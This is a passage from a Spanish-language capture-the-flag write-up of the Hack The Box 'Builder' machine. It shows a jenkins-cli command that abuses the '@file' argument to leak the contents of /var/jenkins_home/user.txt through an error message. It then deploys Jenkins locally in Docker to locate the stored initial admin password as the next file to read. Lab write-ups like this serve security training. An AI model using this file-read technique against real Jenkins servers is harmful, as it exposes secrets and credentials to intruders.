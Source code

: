 ```bash
sys
sync
```


<div style="text-align: center;">
    <b><span style="color: #98FB98;">USER FLAG</span></b>
    <br>
    ---------------------------
</div>

```bash
❯ java -jar jenkins-cli.jar -s http://10.10.11.10:8080/ offline-node @/var/jenkins_home/user.txt
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true

ERROR: No such agent "f4e5bc0dd58dad283a71da1e4e0265ed" exists.
```
Voy a desplegar jenkins en local y para eso voy a utilizar docker. Para instalarlo, puedes leer esta [documentación](https://www.kali.org/docs/containers/installing-docker-on-kali/)

Una vez instalado Docker, vamos a usar el [repositorio](https://github.com/jenkinsci/docker) official de jenkins docker.   

![](/assets/images/htb-writeup-builder/4.png)

```bash
*************************************************************
*************************************************************
*************************************************************

Jenkins initial setup is required. An admin user has been created and a password generated.
Please use the following password to proceed to installation:

150641c8fceb45d09aef6b6c2086b5a6

This may also be found at: /var/jenkins_home/secrets/initialAdminPassword

*************************************************************
*************************************************************
*************************************************************

2024-06-07 18:00:53.519+0000 [id=52]	INFO	h.m.DownloadService$Downloadable#load: Obtained the updated data file for hudson.tasks.Maven.MavenInstaller
2024-06-07 18:00:53.520+0000 [id=52]	INFO	hudson.util.Retrier#start: Performed the action check updates server successfully at the attempt #1
2024-06-07 18:00:54.337+0000 [id=39]	INFO	jenkins.InitReactorRunner$1#onAttained: Completed initialization
2024-06-07 18:00:54.463+0000 [id=25]	INFO	hudson.lifecycle.Lifecycle#onReady: Jenkins is fully up and running

```
Cuando se despliega nos dice que un usuario de admin ha sido generado con una contraseña, y nos da la ruta donde se guarda.
Asi que tenemos una ruta potencial que probar. 
```bash
```